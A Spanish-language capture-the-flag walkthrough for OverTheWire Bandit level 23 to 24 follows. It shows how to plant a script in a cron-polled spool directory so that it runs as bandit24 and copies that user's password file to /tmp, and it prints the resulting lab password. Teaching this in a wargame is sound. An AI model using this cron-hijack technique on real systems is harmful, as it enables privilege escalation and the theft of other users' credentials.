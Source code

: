 # X. Walkthrough Bandit Level 23 → Level 24

Este walkthrough te guía paso a paso para aprovechar el cronjob que ejecuta un script en el sistema y obtener la contraseña del usuario **bandit24**.

---

## 1. Conéctate al Servidor

Inicia sesión en el servidor de Bandit como **bandit23** (usa la contraseña obtenida en el nivel anterior):

```bash
ssh bandit23@bandit.labs.overthewire.org -p 2220
```

---

## 2. Verifica la Existencia del Cronjob

Lista el contenido del directorio de cronjobs para identificar el archivo relevante:

```bash
ls -l /etc/cron.d/
```

Deberías ver, entre otros archivos, **cronjob_bandit24**:

```
-rw-r--r-- 1 root root 120 Sep 19 07:08 cronjob_bandit24
```

Luego, revisa el contenido del archivo:

```bash
head /etc/cron.d/cronjob_bandit24
```

**Salida:**

```
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

*Esto confirma que el script `/usr/bin/cronjob_bandit24.sh` se ejecuta al reiniciar y cada minuto, como el usuario **bandit24**.*

---

## 3. Revisa el Script Ejecutado por Cron

Visualiza el contenido del script para comprender su funcionamiento:

```bash
cat /usr/bin/cronjob_bandit24.sh
```

**Salida:**

```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

### Puntos Clave:

- La variable `myname` se define usando `whoami`.  
  *Como el script se ejecuta como **bandit24**, el directorio utilizado es `/var/spool/bandit24/foo`.*

- El script recorre todos los archivos en ese directorio y, **si el archivo es propiedad de bandit23**, lo ejecuta (con un timeout de 60 segundos) y luego lo elimina.

- Aunque no puedes listar el contenido de `/var/spool/bandit24/foo` por permisos, sí puedes escribir en él.

---

## 4. Crear el Script Malicioso

El objetivo es que el cronjob de **bandit24** ejecute un script que copie la contraseña de **bandit24** (ubicada en `/etc/bandit_pass/bandit24`) a un archivo en `/tmp/`.

Desde tu sesión de **bandit23**, crea el script en el directorio `/tmp`:

```bash
echo "cat /etc/bandit_pass/bandit24 > /tmp/certa_test.txt" > /tmp/24.sh
```

Luego, hazlo ejecutable:

```bash
chmod +x /tmp/24.sh
```

*Importante:* Al crear el script de esta forma, aseguras que **bandit23** es el propietario, lo cual es imprescindible para que el cronjob lo ejecute.

---

## 5. Copiar el Script al Directorio de Ejecución del Cronjob

Aunque no puedas listar el contenido de `/var/spool/bandit24/foo`, tienes permisos para escribir en él. Copia el script allí:

```bash
cp /tmp/24.sh /var/spool/bandit24/foo/
```

Con esto, el archivo `/var/spool/bandit24/foo/24.sh` (propiedad de **bandit23**) estará listo para ser ejecutado por el cronjob.

---

## 6. Espera a que Cron Ejecute el Script

El cronjob se ejecuta cada minuto. Espera hasta que se dispare (aproximadamente 60 segundos). Durante la ejecución, el script copiará la contraseña de **bandit24** a `/tmp/certa_test.txt`.

---

## 7. Verifica la Contraseña

Una vez transcurrido el tiempo, comprueba el contenido del archivo generado:

```bash
cat /tmp/certa_test.txt
```

**Salida esperada:**

```
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

Esta es la contraseña del usuario **bandit24**.

---

## 8. Conéctate al Siguiente Nivel

Utiliza la contraseña obtenida para acceder a **bandit24**:

```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

Cuando se te solicite, ingresa la contraseña `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`.

---

## Consideraciones Finales

- **Exactitud en el Script:**  
  La línea dentro del script debe ser exactamente:
  
  ```bash
  cat /etc/bandit_pass/bandit24 > /tmp/certa_test.txt
  ```
  
  para asegurar que se copia la contraseña correctamente.

- **Permisos y Propietario:**  
  Es fundamental que el script sea propiedad de **bandit23**, ya que el cronjob verifica el propietario antes de ejecutarlo.

- **Directorio con Permisos de Escritura:**  
  Aunque no puedas listar el contenido de `/var/spool/bandit24/foo`, esto no impide que puedas escribir en él.

---

Con estos pasos en formato Markdown, se reproduce exactamente la solución probada y se llega al objetivo de obtener la contraseña del siguiente nivel. ¡Buena suerte en tu avance al nivel 24!